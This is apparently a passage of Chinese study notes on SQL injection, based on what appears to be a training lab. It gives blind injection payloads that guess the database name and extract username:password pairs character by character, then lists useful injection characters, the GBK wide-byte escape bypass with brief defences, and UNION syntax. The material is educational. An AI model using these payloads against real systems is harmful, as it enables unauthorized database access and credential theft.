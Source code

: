 ```SELECT p.*, pac.all_cities FROM {p}_page AS p left join {p}_page_all_cities pac on p.page_id=pac.page_id and p.lang=pac.lang left join {p}_page_all_provinces pap  on p.page_id=pap.page_id and p.lang=pap.lang WHERE p.[lang] = N'2' AND p.[hidden] = N'0' AND p.[parent_id] =14  And ( p.[title] like N'%sql%' )  And (p.[pri4]=N'1' Or p.[pri5]=N'1' Or p.[pri6]=N'1' Or p.[sec1]=N'1' Or p.[sec2]=N'1' Or p.[sec3]=N'1' Or p.[sec4]=N'1' Or p.[sec5]=N'1' Or p.[sec6]=N'1')  And ( wholeyear=N'1'  Or year1m9=N'1' Or  wholeyear=N'1'  Or year2m1=N'1')  ORDER BY  wholeyear```
猜测是否有可用的函数，如：
- database()
- database_name()

例如：猜一下，是不是还有个函数叫database_name(),测试 ```tom' and  SUBSTRING(database_name(),1,1)='a'     ;--``` 查看页面结果或响应状态。

构造一个fuzz：```tom'\+and\+SUBSTRING\(database_name\(\),[0-9],1\)='\w'\+;--```，查看响应中含有“...already exists please try to register with a different username.”，发现数据库名为“HSQLDB” ,是Java内置的数据库。



### 猜测用户名

- 判断第一个用户名的首字符是否为字母（ascii('A')=65）？ 
  - `1' and ascii(substring((select concat(username,0x3a,passwd) from users limit 0,1),1,1)) >64`
- 判断第一个用户名的首字符是否为小写字母（ascii('a')=97）？ 
  - `1' and ascii(substring((select concat(username,0x3a,passwd) from users limit 0,1),1,1)) >96`
- 判断第一个用户名的首字符是否为a-m的小写字母（ascii('n')=110）？ 
  - `1' and ascii(substring((select concat(username,0x3a,passwd) from users limit 0,1),1,1)) < 110` 
- ...

### 尝试特殊字符是否可用


- ```/* */```，行内注释
- ```--```，行注释
- ```#```，行注释
- ```;``` 语句分隔符，可用于构建查询链
- ```'```，单引号，用于包含字符串
- ```+```, 加号用于连接字符串
- ```||```, 用于连接字符串
- ```Char()```， 转化为字符串函数

### 尝试不同编码

历史上，曾经出现过基于字符集的注入技巧。

开发人员常会转义单引号、双引号等特殊字符。但如果数据库采用了宽字符集，可能会有一些字符解析漏洞存在。这是因为web中没有考虑双字节字符的问题，双字节字符可能被web认为是两个字节。

例如：php中的addslashes()函数会转义单引号、双引号、NULL和`\`，或当maigc_quotes_gpc开启时，会在特殊符号前加转义字符“\”

例如：mysql使用GBK编码时，`0xbf27` 和 `0xbf5c`被认为是相同的字符

#### 防护方法
- 在软件系统各层面统一编码，建议使用utf-8
- html `<meta charset='utf-8'>`，确定设置当前页面字符集。

### 尝试特殊语句

#### union
union语句用来将两个或多个select语句的结果结合起来。即对结果做并操作。

注意，使用union时：
- 各个查询语句的结果中，列的数量必须相同；
- 后续union查询语句各列的数据类型，必须与第一个select语句的各列数据类型相一致。
- 上述要求对所有列有效。

```select first_name from user_system_data union select login_count from user_data;```

union所有的语法也允许重复值。

```